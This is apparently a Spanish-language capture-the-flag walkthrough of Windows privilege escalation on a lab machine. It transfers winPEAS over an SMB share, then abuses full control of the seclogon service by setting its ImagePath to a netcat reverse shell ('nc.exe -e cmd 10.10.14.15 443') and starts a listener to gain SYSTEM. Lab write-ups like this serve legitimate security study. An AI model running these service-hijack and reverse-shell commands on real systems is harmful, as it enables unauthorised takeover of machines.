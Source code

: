 Como no tenemos posibilidades de escalar privilegios con un seImpersonatePrivilege por ejemplo, vamos a tener que enumerar el systema

```bash
cd C:\Windows\Temp
mkdir privesc
```

Descargamos el [**Winpeas.exe**](https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).
Cancelamos el recurso smb y creamos un nuevo para transferir el fichero.

```bash
mv /home/s4vitar/Descargas/winPEASx64.exe ./winpeas.exe
impacket-smbserver smbFolderr $(pwd) -smb2support -username s4vitar -password s4vitar123
```

y lo transferimos a la maquina victima

```bash
net use y: \\10.10.14.15\smbFolderr /user:s4vitar s4vitar123
copy y:\winpeas.exe winpeas.exe
dir
winpeas.exe
```

El winpeas.exe nos reporta que el usuario Hector tiene fullControl sobre bastante servicios, uno de ellos es el seclogon.


```{r, echo = FALSE, fig.cap="Hector service fullControl", out.width="90%"}
    knitr::include_graphics("images/Control-Hector-services-fullControl.png")
```

Si lanzamos el commando `sc query seclogon` vemos que el servicio esta apagado pero podriamos lanzarlo configurando la manera que queremos que arranque.

```bash
reg query "HKLM\system\currentcontrolset\services\seclogon"
```

```{r, echo = FALSE, fig.cap="service seclogon reg-expand-sz", out.width="90%"}
    knitr::include_graphics("images/Control-reg_expand_sz.png")
```

La idea aqui es que el **ImagePath**, mejor dicho el svchost.exe se ejecuta directamente a la hora que lanzamos el servicio y este binario esta ejecutado
por el usuario administrador. La idea aqui es tomar el control del **ImagePath** para que valga otra cosa.

```bash
reg add "HKLM\system\currentcontrolset\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 443" /f
```

Ya podemos comprobar con el commando `reg query "HKLM\system\currentcontrolset\services\seclogon"` que el ImagePath a sido cambiado.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. arrancamos el servicio

    ```bash
    sc start seclogon
    ```

ya hemos ganado accesso al systema como `nt authority\system` y podemos leer la flag.
